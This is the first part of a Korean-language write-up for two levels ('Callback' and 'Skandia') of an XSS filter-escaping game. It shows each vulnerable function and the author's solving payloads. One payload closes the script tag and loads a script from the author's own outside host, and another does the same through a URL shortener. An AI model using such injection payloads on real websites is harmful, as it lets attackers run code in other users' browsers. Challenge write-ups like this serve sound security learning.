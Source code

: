 # Callback
```
function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/); 

  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/</g, '\\u003c');
  return "<script>" + thing[0] + "(" + json +")</script>";
}
```
입력값이 a-Z,[,],'로 제한되어 있는 상태이다. 또한 < 도 사용하지 못합니다.

입출력 예시는 아래와 같습니다.

입력값 `callback#userdata`
출력값 `<script>callback({"userdata":"userdata"})</script>`

싱글쿼터를 사용할 수 있기 때문에 쉽게 해결 가능합니다.

payload : `'#';alert(1)//`(14자리)


# Skandia
```
function escape(s) {
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```
입력값이 자동으로 대문자로 치환된다. js는 대소문자를 구분하기 때문에 함수의 대부분을 사용할 수 없게 됩니다.

그냥 내 사이트에 올리고 실행시킴 ^-'

payload : `</script><script src="http://xss.nisambot.com/1.JS"></script>`(61자리)

만약 도메인이 더 짧았으면 더 줄일 수 있을것 같은데....

payload : `</script><script src="http://goo.gl/QNAFNO"></script>`(53자리)

구글 Short URL을 이용해 조금더 축소 성공!

많은 사람들은 난독화를 이용해서 해결 한 것 같습니다.


Part 2에서 계속...!